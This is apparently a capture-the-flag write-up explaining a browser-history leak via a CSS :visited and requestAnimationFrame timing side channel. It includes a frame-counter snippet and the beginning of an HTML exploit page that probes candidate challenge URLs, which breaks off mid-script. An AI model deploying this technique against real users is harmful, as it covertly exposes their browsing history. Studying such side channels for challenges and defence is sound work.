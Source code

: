 ```javascript
window.counter = 0;
rid = -1;
function d(){
    window.counter += 1;
    rid = requestAnimationFrame(d);
}
requestAnimationFrame(d)
setTimeout(()=>(console.log("counter:",window.counter),cancelAnimationFrame(rid)),1000)
```

But how can we use this to leak browser's history? Anchor tags have pseudo-class named `:visited`. Make sure you read about [this on mdn](https://developer.mozilla.org/en-US/docs/Web/CSS/:visited) if you don't know what it is or if you have a question like "Why can't we just change background image of visited anchor tags".

Basically the concept is that we force browser to do heavy css works for visited links. If we do this for many links, this will lead to fps drop. And we can distinguish visited and unvisited links. 

> How paper explains this attack: an attacker repeatedly switches the address of a hyperlink element between a target URL and an unvisited URL over a fixed time window and records how many times the browser invokes the callback function in requestAnimationFrame(). This number equals approximately the number of frames rendered by browsers over this time. If this number is obviously lower than the value measured by toggling the address of the hyperlink element between two unvisited URLs, then the target URL is identified as a visited URL
```html

<!DOCTYPE html>
<html>
    <head>
        <style>
            #out a {
                display: inline-block;
                transform: perspective(100px) rotateY(10deg);
                filter: contrast(200%) drop-shadow(16px 16px 10px #fefefe) saturate(200%);
                color: red;
            }

            #out a:visited {
                color: blue;
            }

            #out {
                position: fixed;
                top: 0px;
                left: 500px;
            }
        </style>
    </head>
    <body>
        <div id="out">
        </div>
        <script>
            var urls = [location.href, 'http://notvisited' + ((Math.random() * 100000000) | 0) + '.foo'];
            for(let i =0;i<33;i++){
                let prefix = window.name != "" ? window.name : "http://web:5000/"
                // let prefix = window.name != "" ? window.name : "http://vault.chal.perfect.blue/"
                urls.push(prefix+i+"/")
            }
            requestAnimationFrame = window.requestAnimationFrame || window.mozRequestAnimationFrame || window.webkitRequestAnimationFrame || window.msRequestAnimationFrame;
            var out = document.getElementById('out');
            var statisticalTime = 200;
            var counter = 0;
```